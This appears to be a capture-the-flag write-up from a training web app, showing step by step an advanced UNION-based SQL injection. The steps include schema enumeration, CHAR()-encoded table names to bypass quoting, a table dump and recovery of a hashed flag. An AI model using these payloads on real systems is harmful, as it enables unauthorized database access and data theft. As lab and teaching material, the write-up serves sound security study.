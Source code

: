 # Breach: SQL injection avancee


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


It will be similar to the basic SQL injection,<br>
so refer to the [SQL injection basic](/SQL%20injection%20basic/Ressources/Readme.md) breach for more information.

The only things that make it "avancee" are :
1. There is no output when there is an error in the SQL query.
2. The 2 outputs are switched.


#### Step 1:

- Go to the search image page.


#### Step 2:

Let's explore the database !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `list_images` looks interesting, let's see what's inside...

- Translate `list_images` and `Member_images` to their ASCII values:
```sql
CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)
```

- List all the columns in the `list_images` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)
AND TABLE_NAME=CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
```

> It gives us the culumns:
> | COLUMN_NAME | COLUMN_TYPE  |
> | ----------: | :----------- |
> | id          | int(11)      |
> | url         | varchar(40)  |
> | title       | varchar(25)  |
> | comment     | varchar(255) |


#### Step 4:

Now we can get the flag from the `list_images` table.

- List everthing:
```sql
999 UNION SELECT id, url FROM list_images
UNION SELECT id, title FROM list_images
UNION SELECT id, comment FROM list_images
```

> It gives us:
> | id  | url                                      | title     | comment                                                                                                               |
> | :-: | :--------------------------------------- | :-------- | :-------------------------------------------------------------------------------------------------------------------- |
> | 1   | https://fr.wikipedia.org/wiki/Programme_ | Nsa       | An image about the NSA !                                                                                              |
> | 2   | https://fr.wikipedia.org/wiki/Fichier:42 | 42 !      | There is a number..                                                                                                   |
> | 3   | https://fr.wikipedia.org/wiki/Logo_de_Go | Google    | Google it !                                                                                                           |
> | 4   | https://en.wikipedia.org/wiki/Earth#/med | Earth     | Earth!                                                                                                                |
> | 5   | borntosec.ddns.net/images.png            | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |


#### Step 5:

- Decrypt the password (md5 lookup): `1928e8083cf461a51303633093573c46` -> `albatroz`

- Lower all the characters: `albatroz` -> `albatroz` (no change)

- Sha256 on it: `albatroz` -> `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`


<br>


## How to fix it:

Same breach as [SQL injection basic](/SQL%20injection%20basic/Ressources/Readme.md#how-to-fix-it).


---

[[Back to main page](/#darkly)]
